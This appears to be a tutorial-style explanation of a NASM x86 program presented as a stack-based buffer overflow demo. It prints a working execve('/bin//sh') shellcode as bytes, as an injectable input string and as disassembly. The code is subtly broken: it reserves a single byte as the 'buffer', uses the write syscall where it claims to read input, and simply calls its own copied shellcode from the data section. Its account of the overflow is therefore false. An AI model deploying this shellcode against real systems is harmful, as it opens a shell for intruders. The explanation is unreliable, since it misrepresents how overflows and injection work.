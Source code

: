 Let's create a simple assembly language program that demonstrates a basic stack-based buffer overflow vulnerability with shellcode injection. We'll write this program in x86 assembly language using NASM syntax. Here's the program:

```assembly
section .data
    buffer db 100          ; Buffer to hold user input
    shellcode db 0x31, 0xc0, 0x50, 0x68, 0x2f, 0x2f, 0x73, 0x68, 0x68, 0x2f, 0x62, 0x69, 0x6e, 0x89, 0xe3, 0x89, 0xc1, 0x89, 0xc2, 0xb0, 0x0b, 0xcd, 0x80
    shellcode_len equ ($ - shellcode)

section .text
    global _start

_start:
    ; Display prompt to enter name
    mov eax, 4             ; Syscall number for sys_write
    mov ebx, 1             ; File descriptor for stdout
    mov ecx, buffer        ; Address of the buffer
    mov edx, 100           ; Maximum number of bytes to read
    int 0x80               ; Call kernel

    ; Copy shellcode to buffer (vulnerable)
    mov edi, buffer        ; Destination address
    mov esi, shellcode     ; Source address
    mov ecx, shellcode_len ; Number of bytes to copy
    rep movsb              ; Move the shellcode byte-by-byte

    ; Execute shellcode
    call buffer            ; Call the buffer (shellcode injection)
    jmp $

```

This program prompts the user to enter their name, reads the input into a buffer, and then executes the shellcode injected into the buffer. The shellcode used here is a simple "execve" shellcode that spawns a shell. However, it's vulnerable to a stack-based buffer overflow attack because it does not perform bounds checking on the input buffer.

To demonstrate the buffer overflow vulnerability and execute the shellcode, you can input the shellcode directly when prompted for your name. Here's an example of how to input the shellcode:

```
\x31\xc0\x50\x68\x2f\x2f\x73\x68\x68\x2f\x62\x69\x6e\x89\xe3\x89\xc1\x89\xc2\xb0\x0b\xcd\x80
```

This shellcode is equivalent to:

```
xor eax, eax        ; Clear eax register
push eax            ; Push null byte onto the stack
push 0x68732f2f     ; Push "//sh" onto the stack
push 0x6e69622f     ; Push "/bin" onto the stack
mov ebx, esp        ; Move stack pointer to ebx (pointer to "/bin//sh")
mov ecx, eax        ; Null out ecx
mov edx, eax        ; Null out edx
mov al, 0xb         ; syscall number for execve
int 0x80            ; Call kernel
```
